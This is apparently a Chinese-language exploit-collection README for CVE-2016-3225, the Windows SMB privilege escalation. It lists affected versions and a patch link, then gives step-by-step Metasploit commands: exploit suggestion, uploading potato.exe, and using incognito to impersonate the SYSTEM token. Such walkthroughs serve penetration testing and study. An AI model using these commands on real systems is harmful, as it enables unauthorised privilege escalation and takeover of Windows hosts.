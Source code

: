 ### CVE-2016-3225

#### 描述

Windows SMB 服务器特权提升漏洞（CVE漏洞编号：CVE-2016-3225）当攻击者转发适用于在同一计算机上运行的其他服务的身份验证请求时，Microsoft 服务器消息块 (SMB) 中存在特权提升漏洞，成功利用此漏洞的攻击者可以使用提升的特权执行任意代码。若要利用此漏洞，攻击者首先必须登录系统。然后，攻击者可以运行一个为利用此漏洞而经特殊设计的应用程序，从而控制受影响的系统。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10          | x86/x64          |         |        |                    |
| Windows 10          | x86/x64          | 1511    |        |                    |
| Windows 7           | x86/x64          |         | SP1    | &#10004; |
| Windows 8.1         | x86/x64          |         |        |                    |
| Windows Rt 8.1      |                  |         |        |                    |
| Windows Server 2008 | x86/x64          |         | SP2    |                    |
| Windows Server 2008 | x86/x64          | R2      | SP1    |                    |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Vista       |                  |         | SP2    |                    |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2016-3225
```

#### 利用方式

> 注意：需要用管理员权限运行MSF生成的文件才能提权到system权限

Windows 7 SP1 x64测试中，使用`whoami /priv`命令查看发现并无**SeImpersonatePrivilege**特权烂土豆提权需要该特权为开启状态，所以测试的时候直接用管理员权限运行

![image-20200819140202765](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-3225_win7_x64.png?raw=true)

利用MSF+烂土豆提权，首先我们假定机器已经上线，通过msf中自带的插件来识别当前系统中可以利用的EXP来进行提权

```
use multi/recon/local_exploit_suggester
set session 1 #当前机器的session
run
```

如果没有用管理员权限运行MSF生成的exe的话，脚本检测是这样的

![image-20200819112155945](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-3225_win7_x64_msf_1.png?raw=true)

如果使用管理员权限运行的话检测是这样的，可以看到比上面多了个ms16_075

![image-20200819140819782](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-3225_win7_x64_msf_2.png?raw=true)

编译好烂土豆的文件

```
potato.exe
```

接着上传编译好的文件

```
upload /Users/ascotbe/Downloads/Potato.exe C:/Users/ascotbe #上传potato.exe到目标机器中的C:\Users\ascotbe目录下,msf无法识别\符号所以必须使用/符号
```

然后执行如下命令即可提权成功了

```
use incognito #加载incoginto功能（用来盗窃目标主机的令牌或是假冒用户)
list_tokens -u #列出目标主机用户的可用令牌
execute -cH -f C:/Users/ascotbe/potato.exe #创建新的进程
list_tokens -u #列出目标主机用户的可用令牌
impersonate_token "NT AUTHORITY\SYSTEM"#假冒目标主机上的可用令牌
```

![image-20200819141240274](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-3225_win7_x64_msf_3.png?raw=true)

进入shell查看

![image-20200819141337651](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-3225_win7_x64_msf_4.png?raw=true)

> 第二种利用方式

编译方式

- VS2019（V141）X64 Release

由于普通账号没有**SeImpersonatePrivilege**特权，这边用管理员账号来演示，利用程序**potatoNG.exe**直接上GIF图

![4](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-3225_win7_x64.gif?raw=true)

